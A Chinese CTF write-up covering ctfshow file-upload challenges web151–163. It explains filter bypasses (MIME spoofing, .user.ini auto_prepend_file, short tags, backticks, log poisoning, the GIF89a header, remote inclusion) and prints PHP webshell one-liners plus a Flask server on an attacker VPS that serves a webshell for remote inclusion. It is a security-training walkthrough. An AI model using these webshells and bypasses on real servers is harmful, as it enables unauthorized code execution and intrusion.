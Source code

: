## 写在前面

开始文件上传系列，新的起点，加油！

——KonDream 2022年1月14日13:46:41

## web151(前端校验)

![image-20220114134736282](image/ctfshow-文件上传(151-170)/image-20220114134736282.png)

前端校验，直接禁用js后上传一句话，或者上传png然后抓包改后缀

## web152(MIME校验)

> hint：后端不能单一校验

前端+后端校验，这里是将一句话木马改为png后上传，再改后缀，经测试后端是MIME类型校验，改为png的image/png即可绕过

![image-20220114135421176](image/ctfshow-文件上传(151-170)/image-20220114135421176.png)

## web153(.user.ini)

这个题过滤了后缀php，一开始想着用php3，phtml等绕过，发现不能执行命令，然后访问upload时出现了不一样

![image-20220114142337227](image/ctfshow-文件上传(151-170)/image-20220114142337227.png)

nothing here？说明此处有个php页面，那么这个题考察的就是.user.ini的利用了

> 自 PHP 5.3.0 起，PHP 支持基于每个目录的 INI 文件配置。此类文件 仅被 CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。如果你的 PHP 以模块化运行在 Apache 里，则用 .htaccess 文件有同样效果。

> 除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

> 在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

可以用的配置是auto_append_file和auto_prepend_file，前者在每个php文件尾加个include，后者在文件头加个include

**而且.user.ini只对同级目录下的文件起作用，同级目录下必须有个php文件才可以，这就是这个题的突破口。**

![image-20220114142942340](image/ctfshow-文件上传(151-170)/image-20220114142942340.png)

首先上传个.user.ini，在index.php中include进去k.png，然后上传带一句话的png

![image-20220114143121987](image/ctfshow-文件上传(151-170)/image-20220114143121987.png)

然后就是getshell后找flag了

![image-20220114143254131](image/ctfshow-文件上传(151-170)/image-20220114143254131.png)

## web154(短标签)

应该是对上传内容进行了过滤，不允许有php出现，那么就使用php短标签：<?= 代替 <?php

![image-20220114144039737](image/ctfshow-文件上传(151-170)/image-20220114144039737.png)

先传个带一句话的png，然后传.user.ini方法同上，最后拿shell找flag

## web155(短标签)

同上

## web156($_POST{1})

经测试，在上面的基础上过滤了文件内容中的 ] ，采用大括号进行绕过：``<?=eval($_POST{1});?>``

![image-20220114145000175](image/ctfshow-文件上传(151-170)/image-20220114145000175.png)

剩下操作同上

## web157(不写马，命令执行)

有点难搞，过滤了 { 和 ； 想要写马进去有点绕，所以就直接命令执行吧：``<?=system('tac ../flag.*')?>``

![image-20220114145952646](image/ctfshow-文件上传(151-170)/image-20220114145952646.png)

## web158(同上)

同上

## web159(同上)

过滤了（ 用反引号绕过：``<?=`tac ../flag.*`?>``

## web160(日志包含)

在上面的基础上过滤了反引号，系统命令不能用了，考虑日志包含

``<?=include"/var/lo"."g/nginx/access.lo"."g"?>``

![image-20220117175904340](image/ctfshow-文件上传(151-170)/image-20220117175904340.png)

然后在UA中插入一句话

![image-20220117180133199](image/ctfshow-文件上传(151-170)/image-20220117180133199.png)

最后getshell

![image-20220117180151043](image/ctfshow-文件上传(151-170)/image-20220117180151043.png)

## web161(GIF89a)

小知识点：GIF89a文件头欺骗，php下的检测函数getimagesize无法认定其图片无效

```php
//检查是否图片
    if(function_exists('getimagesize')) {
        $tmp_imagesize = @getimagesize($new_name);
        list($tmp_width, $tmp_height, $tmp_type) = (array)$tmp_imagesize;
        $tmp_size = $tmp_width * $tmp_height;
        if($tmp_size > 16777216 || $tmp_size < 4 || empty($tmp_type) || strpos($tmp_imagesize['mime'], 'flash') > 0) {
            @unlink($new_name);
            return cplang('only_allows_upload_file_types');
        }
    }
```

如果使用这个函数读取文件头为GIF89a的图片，php会认定这只是一个尺寸比较大的合法图片，所以存在检测漏洞

回到这个题，上传的时候加上GIF89a头就可以了

![image-20220117181330308](image/ctfshow-文件上传(151-170)/image-20220117181330308.png)

## web162(远程包含)

这个题过滤了文件内容中的. 也就是说上传的.user.ini是不能包含带后缀的文件的，在原wp中是要通过条件竞争的方式去解，思路是上传的速度要比服务器删除的速度快，所以采用竞争，但是因为最近群主大大限制了并发，条件竞争并不能做了，所以采用远程文件包含的方式

1. 拥有一台vps，并用flask将php一句话绑定在80端口上

   ```python
   '''
   Author: KonDream
   Date: 2022-01-03 22:45:59
   LastEditors:  KonDream
   LastEditTime: 2022-01-05 13:10:08
   Description:  
   '''
   from flask import *
   
   app = Flask(__name__)
   
   # 首页路由
   @app.route('/',methods=['GET', 'POST'])
   def index():
       return "<?php eval($_POST[1]);?>"
   
   if __name__ == "__main__":
       app.run(host='0.0.0.0', port=80, debug=True)
   ```

2. 上传.user.ini，绑定一个不带后缀的文件k![image-20220117193202242](image/ctfshow-文件上传(151-170)/image-20220117193202242.png)

3. 上传k，并包含远程vps地址，由于过滤了ip中的. 所以要将ip地址转数字，这里转：http://www.msxindl.com/tools/ip/ip_num.asp

   ![image-20220117193804385](image/ctfshow-文件上传(151-170)/image-20220117193804385.png)

4. 最后访问upload，即可getshell![image-20220117193859464](image/ctfshow-文件上传(151-170)/image-20220117193859464.png)

## web163(配置文件包含)

思路同上，但是上传的文件会被服务器立刻删掉，原预期解是通过竞争的方式，但是现在不行，所以就包含在配置文件里![image-20220117194817052](image/ctfshow-文件上传(151-170)/image-20220117194817052.png)![image-20220117194835364](image/ctfshow-文件上传(151-170)/image-20220117194835364.png)

值得注意的是这个题文件不会覆盖，所以只能包含一次，如果写错文件那么就要重开环境了hhh，而且162和163这种做法都要求服务器支持远程文件包含，如果服务器没开启这个选项的话那么就没办法这样做了
